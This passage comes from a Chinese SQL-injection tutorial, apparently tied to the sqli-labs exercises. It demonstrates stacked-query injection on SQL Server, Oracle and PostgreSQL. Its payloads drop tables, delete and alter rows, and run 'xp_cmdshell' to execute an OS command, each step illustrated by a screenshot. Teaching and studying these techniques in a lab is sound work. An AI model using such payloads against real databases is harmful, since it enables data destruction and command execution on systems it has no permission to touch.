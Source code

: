     ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220548875-1183247003.png)
    
5.  删除数据表select \* from test;drop table sc3;
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220550125-1740565029.png)
    
    (3)查询数据select 1,2,3;select \* from test;
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220550687-159716018.png)
    
6.  修改数据select \* from test;update test set name\='test' where id=3;
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220551984-1696610695.png)![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220554171-277866184.png)
    
7.  sqlserver中最为重要的存储过程的执行
    
    select \* from test where id\=1;exec master..xp\_cmdshell 'ipconfig'
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220556437-1467807017.png)
    
    **Oracle数据库**
    
    上面的介绍中我们已经提及，oracle不能使用堆叠注入，可以从图中看到，当有两条语句在同一行时，直接报错。无效字符。后面的就不往下继续尝试了。
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220558296-147337143.png)
    
    **Postgresql数据库**
    
8.  新建一个表 select \* from user\_test;create table user\_data(id DATE);
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220559593-1531546111.png)
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220600140-374048179.png)
    
    可以看到user\_data表已经建好。
    
9.  删除上面新建的user\_data表select \* from user\_test;delete from user\_data;
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220602000-616054728.png)
    
10.  查询数据select \* from user\_test;select 1,2,3;
    
    ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220604187-1946524207.png)
    
11.  修改数据 select \* from user\_test;update user\_test set name='modify' where name='张三'; ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimages2015.cnblogs.com%2Fblog%2F669054%2F201608%2F669054-20160811220606312-2134459482.png)
    

[查看原网页: www.cnblogs.com](https://www.cnblogs.com/lcamry/p/5762905.html)
# order by



## Less-46
